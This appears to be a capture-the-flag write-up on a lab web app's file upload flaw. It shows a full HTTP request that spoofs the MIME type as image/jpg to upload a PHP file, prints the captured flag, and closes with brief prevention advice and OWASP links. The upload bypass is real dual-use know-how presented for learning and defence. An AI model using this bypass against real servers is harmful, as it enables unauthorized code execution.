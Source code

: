 # File Upload Vulnerability Definition

File upload vulnerability is a common security issue found in web applications. Whenever the web server accepts a file without validating it or keeping any restriction, it is considered as an unrestricted file upload.  
In many web servers, the vulnerability depends entirely on its purpose, allowing a remote attacker to upload a file with malicious content. This might end up in the execution of unrestricted code in the server. File upload vulnerability can be exploited in many ways, including the usage of specially crafted multipart form-data POST requests with particular filename or mime type.

# Steps

This vulnerability exist on `http://192.168.1.9/index.php?page=upload`  
We try to upload php file  
output:

```
Your image was not uploaded.
```

So we use Burp suite to change the content type of file send to server
Request:

```
POST /index.php?page=upload HTTP/1.1
Host: 192.168.1.9
Content-Length: 429
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryiFDBox1rlqcnR6Qg
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-GPC: 1
Referer: http://192.168.1.9/index.php?page=upload
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Connection: close

------WebKitFormBoundaryiFDBox1rlqcnR6Qg
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryiFDBox1rlqcnR6Qg
Content-Disposition: form-data; name="uploaded"; filename="file_upload.php"
Content-Type: image/jpg

<?php

echo "Work!";

?>
------WebKitFormBoundaryiFDBox1rlqcnR6Qg
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryiFDBox1rlqcnR6Qg--
```

And the file succesfully uploaded and we get the flag!

# Flag: 46910D9CE35B385885A9F7E2B336249D622F29B267A1771FBACF52133BEDDBA8

# Prevent File Upload Vulnerability

### File type verification

File types are usually defined by their file extensions. Each file type usually has several corresponding file extensions. The file extensions enable the operating system and users to easily identify the type of file.  
Attackers can bypass security systems and spoof operating systems and users by changing file extensions. For example, hackers can rename a malicious .exe file into a legitimate-looking .docx file. To prevent this, you must verify the file type before allowing upload.

### Restrict specific file extensions

A whitelist provides system access only to administrator-approved programs, IPs and email addresses. Creating a white list of allowed files enables you to avoid uploads of potentially malicious content to your site. The white list can include executables, scripts and any other file type.

# Resources

### [Unrestricted File Upload OWASP](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

### [Exercise 1](https://www.hacksplaining.com/exercises/file-upload)
